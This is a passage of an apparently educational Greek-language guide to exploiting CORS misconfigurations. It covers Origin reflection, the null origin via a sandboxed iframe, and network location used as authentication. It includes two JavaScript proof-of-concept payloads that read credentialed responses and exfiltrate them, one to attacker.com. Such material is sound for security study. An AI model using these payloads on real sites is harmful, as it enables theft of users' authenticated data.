 ## Εκμεταλλεύσιμες κακοδιαμορφώσεις

Έχει παρατηρηθεί ότι η ρύθμιση του `Access-Control-Allow-Credentials` σε **`true`** είναι προαπαιτούμενο για τις περισσότερες **πραγματικές επιθέσεις**. Αυτή η ρύθμιση επιτρέπει στον περιηγητή να στέλνει διαπιστευτήρια και να διαβάζει την απάντηση, ενισχύοντας την αποτελεσματικότητα της επίθεσης. Χωρίς αυτό, το όφελος από το να κάνει ένας περιηγητής ένα αίτημα αντί να το κάνει ο ίδιος μειώνεται, καθώς η εκμετάλλευση των cookies ενός χρήστη γίνεται μη εφικτή.

### Εξαίρεση: Εκμετάλλευση Τοποθεσίας Δικτύου ως Αυθεντικοποίηση

Υπάρχει μια εξαίρεση όπου η τοποθεσία δικτύου του θύματος λειτουργεί ως μορφή αυθεντικοποίησης. Αυτό επιτρέπει στον περιηγητή του θύματος να χρησιμοποιείται ως μεσολαβητής, παρακάμπτοντας την αυθεντικοποίηση βάσει IP για την πρόσβαση σε εφαρμογές intranet. Αυτή η μέθοδος έχει ομοιότητες στην επίδραση με την επανασύνδεση DNS αλλά είναι πιο απλή στην εκμετάλλευση.

### Αντανάκλαση του `Origin` στο `Access-Control-Allow-Origin`

Το σενάριο του πραγματικού κόσμου όπου η τιμή της κεφαλίδας `Origin` αντανάκλαται στο `Access-Control-Allow-Origin` είναι θεωρητικά απίθανο λόγω περιορισμών στη συνδυαστική χρήση αυτών των κεφαλίδων. Ωστόσο, οι προγραμματιστές που επιθυμούν να ενεργοποιήσουν το CORS για πολλαπλές διευθύνσεις URL μπορεί να δημιουργήσουν δυναμικά την κεφαλίδα `Access-Control-Allow-Origin` αντιγράφοντας την τιμή της κεφαλίδας `Origin`. Αυτή η προσέγγιση μπορεί να εισάγει ευπάθειες, ιδιαίτερα όταν ένας επιτιθέμενος χρησιμοποιεί ένα τομέα με όνομα σχεδιασμένο να φαίνεται νόμιμο, παραπλανώντας έτσι τη λογική επικύρωσης.
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example.com/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```
### Εκμετάλλευση της `null` Προέλευσης

Η `null` προέλευση, που καθορίζεται για καταστάσεις όπως ανακατευθύνσεις ή τοπικά αρχεία HTML, κατέχει μια μοναδική θέση. Ορισμένες εφαρμογές επιτρέπουν αυτή την προέλευση για να διευκολύνουν την τοπική ανάπτυξη, επιτρέποντας ακούσια σε οποιαδήποτε ιστοσελίδα να μιμηθεί μια `null` προέλευση μέσω ενός sandboxed iframe, παρακάμπτοντας έτσι τους περιορισμούς CORS.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```
